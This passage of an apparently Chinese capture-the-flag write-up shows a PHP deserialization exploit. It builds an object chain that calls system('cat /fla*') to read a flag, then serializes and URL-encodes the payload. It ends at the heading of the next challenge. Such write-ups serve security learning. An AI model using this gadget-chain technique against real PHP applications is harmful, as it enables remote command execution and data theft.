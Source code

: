 ```
$reverse = new Reverse();
$web = new Web();
$crypto = new Crypto();
$web->func = "system";
$web->var = "cat /fla*";
$pwn->obj = $web;
$reverse->func = $pwn;
$crypto->obj = $reverse;
$start->errMsg = $crypto;

$a = serialize($start);
echo $a."\n";
echo urlencode($a);
```

![image-20231211134650354](images/61.png)

官方wp用的是数组下标的方式

## midsql
